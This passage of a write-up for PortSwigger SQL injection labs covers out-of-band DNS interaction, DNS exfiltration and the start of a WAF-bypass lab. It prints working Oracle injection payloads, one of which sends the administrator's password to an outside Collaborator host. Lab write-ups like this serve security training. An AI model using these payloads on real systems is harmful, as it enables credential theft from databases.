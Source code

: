 This would eventually return the password.

## Lab 16: Out-of-Band Interaction

To solve, trigger a DNS lookup via SQL Injection. One is supposed to use Burp Collaborator to solve this. To solve this, I just tested each payload from the DNS lookup portion of their cheatsheet.

The Oracle one works:

```sql
x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http%3a//BURP.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

URL encode the above and you're good to go.

## Lab 17: Exfiltration via DNS

For this, the goal is to append a query to the out of band interaction.

```sql
x'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.615o0m1p833w26rpy91d61u5jwpnde13.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--
```

When collaborator is checked, the password is revealed:

![](../../.gitbook/assets/sql-injection-portswigger-writeup-image-7.png)

## Lab 18: Filter Bypass via XML Encoding

When checking stock on this site, the page sends the request in XML.

```
POST /product/stock HTTP/2

<TRUNCATED>

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId>3</storeId></stockCheck>
```

Any attempts to do SQLI on this results in the WAF detecting the attack:

![](../../.gitbook/assets/sql-injection-portswigger-writeup-image-8.png)
